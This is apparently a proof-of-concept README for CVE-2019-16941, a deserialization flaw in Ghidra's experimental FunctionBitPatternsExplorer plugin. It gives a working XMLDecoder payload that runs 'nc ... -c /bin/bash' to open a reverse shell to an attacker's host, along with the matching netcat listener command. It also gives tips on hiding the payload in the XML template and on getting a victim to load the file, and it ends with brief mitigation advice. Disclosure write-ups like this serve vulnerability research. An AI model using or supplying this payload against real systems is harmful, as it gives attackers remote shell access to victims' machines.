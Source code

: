 # CVE-2019-16941

<b>Proof-of-Concept:</b>

The vulnerability requires multiple and relatively improbable conditions in order to get triggered, fact that limits its exploitability. However, it takes little effort and understanding to prepare a payload given the fact that it can result into an arbitrary code execution.

<b>Creating the payload:</b> 

In order to create a payload for the target to run, a script incorporated in Ghidra can be used. To access it, click "Window" -> "Script Manager" and run "DumpFunctionPatternInfoScript.java" with default parameters on any binary that you have included into the Code Browser (but make sure the path to the folder where you want to save the output exists). This script produces an XML output file which will be loaded after into the vulnerable component.

![Figure 1 Create a template for payload](Resources/template_for_payload.png)

This XML template can be used to inject the object which will be deserialized as Java code and executed silently, without alerting the user. Essentially, the malicious code will be inserted as an additional object to the end of the XML file, before the </java> closing tag. An example of object payload which represents a reverse shell is the following: 

```xml
<object class="java.lang.Runtime" method="getRuntime"> 
  <void method="exec"> 
    <string>nc <IP_to_connect> <PORT_to_connect> -c '/bin/bash'</string> 
  </void> 
</object>
```
The above will be deserialized into the following Java code:

```java
Process process = Runtime.getRuntime().exec("nc <IP_to_connect> <PORT_to_connect> -c '/bin/bash'")
```

Options are limitless in terms of payload since any Java code (even sophisticated malware) could be run this way, as long as it is correctly serialized into the XML format required by XMLDecoder. Care should be considered if the payload is inserted somewhere else inside the template (in order to be further hidden), as it might produce exceptions during deserialization, thus alerting the user.

<b>Execution:</b>

The process through which the payload gets executed makes use of the Ghidra GUI and cannot be automated. Instead, it requries human interaction from the victim, this representing another condition for the exploit to run.

For this exploit to work on the victim's computer, Ghidra needs to have the Experimental plugin "FunctionBitPatternsExplorer" enabled. This can be achieved by following the steps below:

![Figure 2 Enable Experimental Plugin](Resources/ghidra_experimental.png)

Next, the user will be required to open the plugin from "Window" -> "Function Bit Patterns Explorer" and load the XML file using the "Read XML Files" functionality. This however, raises another challenge for the conditions section. The attacker requires a way in which to get the user to download the XML payload to his machine.

Back in the victim's perspective, the function will not let you see the XML files in the list so if your directory looks empty it is normal. If you start typing their name in the "File name" textbox they will show up, however it is important to not select any of them and leave the selector point to the directory as it will pick the files by itself.

![Figure 3 Executing the payload](Resources/execute_payload.png)


Before the user clicks "OK", the attacker (joe) will need be running a listener on his remote host and wait for the connection. This can easily be achieved using:

```bash
$ nc -lvnp <listening_port>
```
After execution, the results can be seen below:

![Figure 4 Reverse Shell](Resources/shell.png)

The vulnerability is highly unlikely to be exploitable on a large scale due to the multitude of the conditions implied. Until a new patch is provided, the best mitigating circumstances imply disabling (or not enabling in the first place) the experimental plugin affected. However, in case the plugin must be used, the XML files should originate from a trusted source.
